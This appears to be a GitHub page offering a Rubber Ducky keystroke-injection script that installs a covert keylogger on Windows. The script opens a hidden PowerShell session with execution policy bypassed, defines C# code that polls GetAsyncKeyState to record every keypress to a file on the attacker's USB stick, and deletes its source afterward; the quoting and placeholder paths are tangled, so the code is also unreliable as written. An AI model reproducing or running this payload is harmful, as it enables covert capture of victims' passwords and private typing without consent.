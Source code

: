 # rubberduckykneth
This Rubber Ducky Script save all keyboard touch in your choosen path 



DELAY 1000

REM ----- Rubber Ducky Keylogger -----

REM ----- Autorun -----

WINDOWS + R

DELAY 500

STRING notepad

ENTER

DELAY 500

STRING start /MIN powershell -WindowStyle Hidden -ExecutionPolicy Bypass -Command "$usbPath = Get-WmiObject Win32_Volume | ? { $_.Label -eq 'YOUR_USB_LABEL' } | Select-Object -ExpandProperty Name; $logFile = $usbPath + '\keylogs.txt'; Add-Type -TypeDefinition 'using System; using System.IO; using System.Windows.Forms; using System.Diagnostics; using System.Runtime.InteropServices; public class KeyLogger { [DllImport(\"user32.dll\")] public static extern int GetAsyncKeyState(Int32 i); public static void Main() { StreamWriter sw = new StreamWriter(File.Create(@\"' + $logFile + '\")); while (true) { for (Int32 i = 0; i < 255; i++) { int keyState = GetAsyncKeyState(i); if (keyState == 1 || keyState == -32767) { sw.Write((Keys)i + \",\"); } } } } }'; $sourceCode = @(' + '"' + 'YOUR_SOURCE_CODE_HERE' + '"' + '); $sourceCode = $sourceCode.Replace(' + '"' + '\\"' + '"' + ', ' + '"' + '"' + '); File.WriteAllText(' + '"' + 'YOUR_SOURCE_CODE_PATH' + '"' + ', $sourceCode); (New-Object System.Diagnostics.ProcessStartInfo -Property @{ FileName = ' + '"' + 'YOUR_COMPILER_PATH' + '"' + '; Arguments = ' + '"' + 'YOUR_SOURCE_CODE_PATH' + '"' + '; CreateNoWindow = $true; UseShellExecute = $false; }).Start(); Start-Sleep -Seconds 2; Remove-Item ' + '"' + 'YOUR_SOURCE_CODE_PATH' + '"' + ';' >C:\keylogger.txt

ENTER

DELAY 500

ALT F4

DELAY 500

STRING exit

ENTER

